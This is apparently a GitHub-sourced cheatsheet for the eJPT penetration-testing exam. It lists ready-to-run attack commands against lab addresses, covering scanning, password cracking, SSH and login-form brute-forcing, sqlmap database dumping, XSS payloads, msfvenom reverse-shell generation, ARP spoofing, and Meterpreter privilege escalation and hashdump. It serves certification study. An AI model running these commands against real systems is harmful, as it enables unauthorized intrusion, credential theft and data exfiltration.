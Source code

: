 ```yaml
---
description: This is a Cheatsheet for eJPT exam + course.
---
```


# eJPT-Cheatsheet

### Nmap

nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial -v\
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p --script=vuln -v

### fPing

fping -a -g 10.10.10.0/24 2>/dev/null > targets

### IP Route

**Syntax**\
ip route add \<Network-range> via \<router-IP> dev \<interface>\
eg.\
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0

### John

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

### dirb

dirb [http://10.10.10.10/](http://10.10.10.10/)\
dirb [http://10.10.10.10/dir](http://10.10.10.10/dir) -u admin:admin

_I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist._

### Netcat

**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 \<port>

### SQLMap

**Check if injection exists**

sqlmap -r Post.req\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin"

**Get database if injection Exists**

sqlmap -r login.req --dbs\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id --dbs\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" --dbs\\

**Get Tables in a Database**

sqlmap -r login.req -D dbname --tables\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id -D dbname --tables\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" -D dbname --tables

**Get data in a Database tables**

sqlmap -r login.req -D dbname -T table\_name --dump\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id -D dbname -T table\_name --dump\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" -D dbname -T table\_name --dump

### Hydra

**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
_You can use same for FTP, just replace ssh with ftp_

**HTTP POST Form**\
hydra [http://10.10.10.10/](http://10.10.10.10/) http-post-form "/login.php:user=^USER^\&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V

_You will know which wordlists to use when the time comes_

### XSS

\<script>alert(1)\</script>\
\<ScRiPt>alert(1)\</ScRiPt>

_This is a great filter bypass cheatsheet_\
[https://owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### msfvenom shells

**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST= LPORT= -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST= LPORT= -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter\_reverse\_tcp LHOST= LPORT= -f raw > shell.php\
cat shell.php | pbcopy && echo '\<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute

run autoroute -s 10.10.10.0/24

### ARPSpoof

echo 1 > /proc/sys/net/ipv4/ip\_forward\
arpspoof -i -t -r\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration

**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-\* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share\_name

### FTP Enumeration

nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10

### Meterpreter

ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win\_privs

**BYPASS UAC**\
_Background the session first_\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate \<pid>\
hashdump

### Windows Command Line

**To search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"\
dir /b/s "\*filename\*"

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users

**List drives on the machine**\
wmic logicaldisk get Caption,Description,providername



Source: githubmemory.com
